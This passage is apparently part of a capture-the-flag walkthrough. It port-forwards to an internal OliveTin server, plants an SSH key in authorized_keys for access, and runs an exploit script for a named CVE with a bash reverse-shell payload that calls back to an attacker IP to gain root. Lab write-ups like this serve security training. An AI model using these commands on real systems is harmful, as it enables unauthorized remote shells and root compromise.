this
so we see what looks like a web server which is runningolivetin so we can even examine this even further

so looks like its running a web server, lets try to perform port forwarding to access this web server , we can usessh but we first need to transfer our own ssh public key there and then use it to log in with ssh, this is mainly because ssh only allows authenication using public keys in this box, you could check this with ssh -v haris@<IP>

so to do that first generate a key pair on our attack hostssh-keygen -t ed25519 -f ./enigma -N ""
then transfer it to our attack host using a python http server
python3 -m http.server 6666
then from the haris shell
curl http://10.10.16.102:6666/enigma -o enigma
Now if you don't find a /.ssh directory, then in that case we just need to create one and give it the appropriate permissions
mkdir -p ~/.ssh
touch ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
echo "<public key content>" >> ~/.ssh/authorized_keys

then from our attack host now we can port forward the port 1337 to our local host

we see its running a OliveTin 3000 10.0 which is vulnerable to CVE-2026-27626 , so first lets transfer the script to haris, and run it from there./cve_exploit --url http://127.0.0.1/ --cmd "setsid bash -c 'bash -i >& /dev/tcp/10.10.16.102/4444 0>&1'"

and thats root
Happy Hacking!